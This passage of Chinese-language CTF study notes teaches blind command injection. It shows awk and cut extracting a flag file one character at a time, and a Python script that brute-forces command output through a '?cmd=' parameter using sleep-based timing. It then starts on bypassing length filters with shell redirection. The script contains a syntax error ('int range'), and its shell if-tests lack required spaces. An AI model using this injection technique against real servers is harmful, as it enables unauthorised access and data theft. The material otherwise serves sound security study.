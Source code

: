 3. cut -c
   用于逐个获取单个字符

   ```shell
   cat flag | awk NR==1 | cut -c 1
   h
   cat flag | awk NR==1 | cut -c 2
   e
   ```

4. if
   if []里的判断语句为真 . 则执行echo right , 否则执行 fi 结束

   ```shell
   if [$(cat flag | awk NR==1 | cut -c 1) == h];then echo "right";fi
   if [$(cat flag | awk NR==1 | cut -c 1) == e];then echo "right";fi
   if 后面要有空格
   ```

```python
import requests
import time
url=""
result=""
for i int range(1,5): # 检测5行
    for j in range(1,10): # 检测10个字符
        for k in range(32,128): # ascii码表
            k=chr(k)
            time.sleep(0.1)
            payload="?cmd=" + f"if[`ls | awk NR=={i} | cut -c {j}` == {k}];then sleep 2;fi"
            try:
                requests.get(url=url+payload,timeout=(1.5,1.5)) # 响应时间超过1.5秒
            except:
                result=result+k
                print(result)
                break
    result+=""
```

## 长度过滤绕过

### 前置知识

1. 通过 > 来创建文件 , 覆盖文件内容

   ```shell
   echo benben > a
   创建文件a , 并把字符串benben写入文件a
   echo hello > a
   通过 > 来将命令执行结果写入文件会覆盖掉文件原本的内容
   > b
   创建文件b
   ```

2. 通过 >> 来追加内容
